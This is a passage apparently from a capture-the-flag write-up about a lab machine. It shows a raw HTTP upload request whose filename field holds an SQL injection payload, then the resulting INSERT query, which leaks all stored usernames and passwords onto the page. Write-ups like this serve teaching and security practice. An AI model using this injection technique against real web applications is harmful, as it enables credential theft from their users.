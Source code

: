 ```

POST /files.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------81606610532534972821053179055
Content-Length: 335
Origin: http://10.10.11.104
Connection: close
Referer: http://10.10.11.104/files.php
Cookie: PHPSESSID=mdecrekdk0rlrjcs724posb8oh
Upgrade-Insecure-Requests: 1
-----------------------------81606610532534972821053179055
Content-Disposition: form-data; name="userData"; filename="accounts', '0', '', (SELECT group_concat(concat(username,':',password) SEPARATOR '<br>') from accounts));-- -"
Content-Type: text/plain

test
-----------------------------81606610532534972821053179055--

```

That builds the SQL string to:

```

INSERT INTO files(name, size, data, user) VALUES('accounts', '0', '', (SELECT group_concat(concat(username,':',password) SEPARATOR '<br>') from accounts));-- -', '4', 'test', 'oxdff')

```

This results in the following on the webpage when I refresh, leaking the username and password of each user in the database:

![image-20220112124035475](https://0xdfimages.gitlab.io/img/image-20220112124035475.png)